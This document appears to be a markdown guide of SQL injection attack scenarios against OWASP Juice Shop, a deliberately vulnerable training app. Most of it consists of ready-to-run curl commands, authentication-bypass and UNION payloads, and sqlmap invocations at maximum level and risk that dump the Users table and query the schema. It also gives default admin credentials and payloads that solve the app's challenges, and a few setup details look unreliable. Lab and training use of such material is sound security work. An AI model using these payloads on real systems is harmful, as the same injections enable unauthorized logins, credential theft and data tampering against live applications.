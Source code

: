 # OWASP Juice Shop SQL Injection Attack Scenarios

## Overview

This document provides comprehensive SQL injection attack scenarios specifically designed for OWASP Juice Shop. These scenarios cover all major SQL injection vulnerabilities present in the application, including authentication bypass, data extraction, and privilege escalation.

## Juice Shop SQL Injection Vulnerabilities

### 1. Login Authentication Bypass (SQLi-1)

**Location:** `/rest/user/login`  
**Vulnerability:** Union-based SQL injection in email field  
**Database:** SQLite

### 2. Product Search Injection (SQLi-2)

**Location:** `/rest/products/search`  
**Vulnerability:** Boolean-based blind SQL injection  
**Database:** SQLite

### 3. Order History Injection (SQLi-3)

**Location:** `/rest/track-order`  
**Vulnerability:** Error-based SQL injection  
**Database:** SQLite

### 4. User Registration Injection (SQLi-4)

**Location:** `/api/Users`  
**Vulnerability:** Second-order SQL injection  
**Database:** SQLite

## Prerequisites

```bash
# Start OWASP Juice Shop
docker run -d -p 3000:3000 bkimminich/juice-shop

# Install required tools
pip3 install requests beautifulsoup4 sqlparse sqlite3
npm install -g juice-shop-cli
```

## Scenario 1: Authentication Bypass via SQL Injection

### Manual Testing

```bash
# Basic authentication bypass
curl -X POST "http://10.30.0.237:3000/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op'\''--","password":"anything"}'

# Union-based injection to extract admin credentials
curl -X POST "http://10.30.0.237:3000/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op'\'' UNION SELECT id,email,password FROM Users WHERE email='\''admin@juice-sh.op'\''--","password":"test"}'
```

### SQLMap Automated Testing

SQLMap is a powerful tool for automating the detection and exploitation of SQL injection vulnerabilities. Here's how to use it step-by-step:

1.  **Identify SQL injection vulnerability:**

    - Use the following command to test for SQL injection in the login form:

      ```bash
      sqlmap -u "http://10.30.0.237:3000/rest/user/login" --data='{"email":"test@test.com","password":"test"}' --headers="Content-Type: application/json" --level 5 --risk 3 --technique=U
      ```

    - `Explanation:`
      - `-u`: Specifies the target URL.
      - `--data`: Provides the POST data in JSON format.
      - `--headers`: Sets the Content-Type to application/json.
      - `--level 5`: Specifies the level of tests to perform (1-5, where 5 is the most thorough).
      - `--risk 3`: Specifies the risk level (1-3, where 3 includes more aggressive tests).
      - `--technique=U`: Focus on UNION-based attacks which work well with Juice Shop.

2.  **Using known credentials to help SQLMap:**

    - SQLMap works better with valid credentials. Use the admin account:

      ```bash
      sqlmap -u "http://10.30.0.237:3000/rest/user/login" --data='{"email":"admin@juice-sh.op","password":"admin123"}' --headers="Content-Type: application/json" --level 5 --risk 3 --dbs
      ```

    - This helps SQLMap understand successful vs. failed responses.
    - Note: The default admin credentials are `admin@juice-sh.op` / `admin123`

3.  **Enumerate databases:**

    - Once SQLMap confirms the vulnerability, enumerate the available databases:

      ```bash
      sqlmap -u "http://10.30.0.237:3000/rest/user/login" --data='{"email":"test@test.com\' OR 1=1--","password":"test"}' --headers="Content-Type: application/json" --level 5 --risk 3 --dbs
      ```

    - The payload `test@test.com\' OR 1=1--` helps bypass authentication.

4.  **Extract user table data:**

    - Target the Users table to extract email addresses and password hashes:

      ```bash
      sqlmap -u "http://10.30.0.237:3000/rest/user/login" --data='{"email":"test@test.com\' UNION SELECT * FROM Users--","password":"test"}' --headers="Content-Type: application/json" --level 5 --risk 3 -T Users --dump
      ```

5.  **Automate login bypass and privilege escalation:**

    - The following command attempts to bypass login and identify admin users:

      ```bash
      sqlmap -u "http://10.30.0.237:3000/rest/user/login" --data='{"email":"admin@juice-sh.op","password":"wrong"}' --headers="Content-Type: application/json" --level 5 --risk 3 --sql-query="SELECT * FROM Users WHERE role='admin'"
      ```

### OWASP Juice Shop SQL Injection Challenges

Several challenges in OWASP Juice Shop involve SQL injection. Here are the key challenges and their solutions:

1. **Login Admin Challenge:**

   - Solution: Enter `' OR 1=1--` in the email field and any text in the password field
   - Alternative: Use `admin@juice-sh.op'--` in email and any password

2. **Login Jim Challenge:**

   - Solution: Enter `jim@juice-sh.op'--` in email and any text in password field
   - This bypasses password verification for Jim's account

3. **Order Manipulation Challenge:**

   - Target: `/rest/track-order/{id}`
   - Solution: Send a request with payload `57' OR 1=1--` to see all orders

4. **Data Manipulation Challenge:**

   - Target: Product reviews
   - Solution: Post a review with `');INSERT INTO product_reviews VALUES(99,1,1,'SQL Injection','2023-01-01',(SELECT id FROM Users WHERE email='jim@juice-sh.op'),'jim@juice-sh.op')--`

5. **Retrieve Blueprint Challenge:**
   - Target: `/rest/products/search`
   - Solution: Query with `apple')) UNION SELECT id,sql,1,1,1,1,1,1,1 FROM sqlite_master--`
   - This retrieves database schema information

These SQLMap commands can be adapted for each of these challenges. For example, to target the product search vulnerability:

```bash
sqlmap -u "http://10.30.0.237:3000/rest/products/search?q=apple" --level 5 --risk 3 --technique=U --sql-query="SELECT sql FROM sqlite_master"
```
